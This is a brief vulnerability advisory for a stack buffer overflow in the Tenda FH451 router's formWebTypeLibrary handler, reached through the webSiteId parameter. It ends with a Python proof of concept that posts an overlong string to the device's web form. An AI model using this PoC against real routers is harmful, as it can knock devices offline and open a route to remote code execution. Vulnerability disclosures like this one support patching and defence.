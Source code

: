 # Tenda FH451 formWebTypeLibrary
### Overview
vendor: Tenda

product: FH451

version: v1.0.0.9

type: Stack Overflow
### Vulnerability Description
Tenda FH451 v1.0.0.9 were discovered to contain a stack overflow via the webSiteId parameter in the formWebTypeLibrary function.

### Vulnerability details
In function formWebTypeLibrary line 30, it reads in a user-provided parameter `webSiteId`. The variable `Var` is passed to the `strcat` function without any length check, which may overflow the stack-based buffer `dest`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/5.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/webtypelibrary"

data = {
    "webSiteId": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```